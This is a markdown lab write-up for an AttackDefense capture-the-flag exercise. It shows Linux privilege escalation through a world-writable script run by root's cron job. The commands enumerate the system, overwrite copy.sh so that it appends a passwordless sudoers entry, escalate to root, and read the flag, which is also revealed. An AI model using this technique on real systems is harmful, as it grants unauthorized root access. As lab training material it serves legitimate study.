



# 🔬Cron Jobs

## Lab 1

>  🔬 [Cron Jobs Gone Wild II](https://www.attackdefense.com/challengedetails?cid=77)
>
>  - **Cron Jobs** Privilege escalation
>  - Already logged on as `student` unprivileged user

```bash
whoami
groups student
cat /etc/passwd
crontab -l
```

> 📌 `student` user has no privileges and no scheduled cron jobs



```bash
ls -l
	-rw------- 1 root root 26 Sep 23  2018 message
# "message" file has root permissions
```

### Cron Jobs Identify

- Look for all occurences of the path or the file, on the system

```bash
find / -name message
    /home/student/message
	find: '/var/lib/apt/lists/partial': Permission denied
    [...]
    /tmp/message
```

```bash
grep -rnw /usr -e "/home/student/message"
	/usr/local/share/copy.sh:2:cp /home/student/message /tmp/message
```

- The file has been copied into the /tmp directory

```bash
cat /tmp/message
	Hey!! you are not root :(
```

- Check `copy.sh` privileges

```bash
ls -al /usr/local/share/copy.sh
	-rwxrwxrwx 1 root root 74 Sep 23  2018 /usr/local/share/copy.sh
	
cat /usr/local/share/copy.sh
    #! /bin/bash
    cp /home/student/message /tmp/message
    chmod 644 /tmp/message
```

### Privesc

- Every user account has read/write/execute permissions on the `copy.sh` script
- The script is writable by the `student` user. Modify the script to execute a command (`e.g.` a*dding **student** to `sudoers` file*).
  - When the script is executed by `root` cron job (*every 1 min for this lab*), it will run commands with pivileged permissions
  - No text editors available in the lab

```bash
printf '#!/bin/bash\necho "student ALL=NOPASSWD:ALL" >> /etc/sudoers' > /usr/local/share/copy.sh

cat /usr/local/share/copy.sh
    #!/bin/bash
    echo "student ALL=NOPASSWD:ALL" >> /etc/sudoers
```

```bash
sudo -l

    User student may run the following commands on attackdefense:
        (root) NOPASSWD: /etc/init.d/cron
        (root) NOPASSWD: ALL
```



```bash
sudo su
whoami
	root
cd /root
cat flag
```

```bash
crontab -l
	*/01 * * * * sh /usr/local/share/copy.sh *
```


<details>
<summary>Reveal Flag: 🚩</summary>


`697914df7a07bb9b718c8ed258150164`



</details>

------

